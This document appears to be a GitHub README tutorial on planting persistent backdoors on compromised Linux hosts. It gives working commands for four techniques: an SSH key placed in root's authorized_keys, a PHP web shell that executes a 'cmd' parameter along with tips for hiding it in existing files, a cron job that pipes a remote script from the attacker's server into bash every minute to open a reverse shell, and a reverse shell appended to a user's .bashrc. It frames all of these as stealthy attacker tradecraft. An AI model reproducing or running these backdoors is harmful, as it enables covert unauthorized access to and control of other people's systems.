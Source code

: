 # linux-basic-backdoor
nothing




linux basic backdoors
############################


ssh backdoor
-------------------

The first backdoor we are going to look at is : The SSH Backdoor

The ssh backdoor essentially consists of leaving our ssh keys in some user’s home directory. Usually the user would be root as it’s the user with the highest privileges. 

So Let’s generate a set of ssh keys with ssh-keygen!

To do so, simply run the command ssh-keygen as shown below!

Now that we have 2 keys. 1 private key and 1 public key, we can now go to /root/.ssh and leave our public key there. Don't forget to rename the public key to : authorized_keys

If the directory .ssh is not present, you can always create it using this command : "mkdir .ssh"

Now that we have left our backdoor, we can simply login as root!

Before doing so, give the private key the right permissions using : chmod 600 id_rsa.

This is necessary because if we don't do it, ssh will complain about permissions not being secure enough on the key and will most likely , not let us use it.

After giving the key the right permissions, we can do : "ssh -i id_rsa root@ip" to login into our desired machine!

One thing to note about this backdoor is:




PHP backdoors
-------------------------
Let's now get into the second backdoor: PHP Backdoors!

If you get root access on a Linux host, you will most likely search for creds and or any useful information in the web root.

The web root is usually located in : /var/www/html

What you have to know is that, whatever you leave in /var/www/html, will be available for everybody to use in their browser.

Now that you know that, you can try creating a php file with any name and putting inside this piece of code:




code :



<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>

This code simply takes the parameter "cmd" and will execute anything that is being given to that parameter.

Notice that we are using : "$_REQUEST['cmd'])", which means that you can pass that parameter either in GET or in POST data.

Now that file is saved and ready , we can try to query it.

If you left the file in /var/www/html/shell.php | You should be able to access it directly using : http://ip/shell.php

If you left the shell somewhere else, look in what directory it is and then try accessing it by doing something like that : http://ip/somedirectory/shell.php






steps
----------------------------

Here are some ways that we could make this backdoor a little more hidden:

1. Try to add this piece of code in already existing php files in /var/www/html. Adding it more towards the middle of files will definitely make our malicious actions a little more secret.

2. Change the "cmd" parameter to something else... anything actually... just change it to something that isn't that common. "Cmd" is really common and is already really well known in the hacking community./






CronJob backdoors
+++++++++++++++++++++++


Let's now get into the 3rd backdoor technique!

This backdoor consists of creating a cronjob!

If you take a look at your cronjobs file, which is /etc/cronjob, you would see something like this:



cat /etc/crontab




This represents all the tasks that are scheduled to run at some time on your machine.

Once you got root access on any host, you can add any scheduled task. You could even just configure a task where every minute a reverse shell is sent to you. Which is exactly what we're going to do.

Notice the 2 letters on top of the tasks : "m and h"

Those are the letters that indicate if the task should run every hour or every minute.

In the example above, you can see that there is a "*" symbol under the "h". This means that the following task would run every hour.

Now let's get to our backdoor!

Add this line into our cronjob file :

* *     * * *   root    curl http://<yourip>:8080/shell | bash

Notice that we put a "*" star symbol to everything. This means that our task will run every minute, every hour, every day , etc .

We first use "curl" to download a file , and then we pipe it to "bash"

The contents of the "shell" file that we are using are simply :

-------------------------------------------------

#!/bin/bash

bash -i >& /dev/tcp/ip/port 0>&1

--------------------------------------------------



We would have to run an HTTP server serving our shell.

You can achieve this by running : "python3 -m http.server 8080"

Once our shell gets downloaded, it will be executed by "bash" and we would get a shell!

*Don't forget to listen on your specified port with "nc -nvlp <port>"*

Please note that this backdoor isn't really hidden because everyone can see it just by looking inside /etc/crontab.




.bashrc backdoors
++++++++++++++++++++++++++++++++++++++++++++




Let's now get into the: ".bashrc" Backdoor!

If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.

So If you know any users that log on to their system quite often, you could simply run this command to include your reverse shell into their ".bashrc".


echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc


One important thing is to always have your nc listener ready as you don't know when your user will log on.

This attack is very sneaky as nobody really thinks about ever checking their ".bashrc" file.

On the other hand, you can't exactly know if any of the user's will actually login to their system, so you might really wait a long period of time.

You understand what is the ".bashrc" backdoor technique!


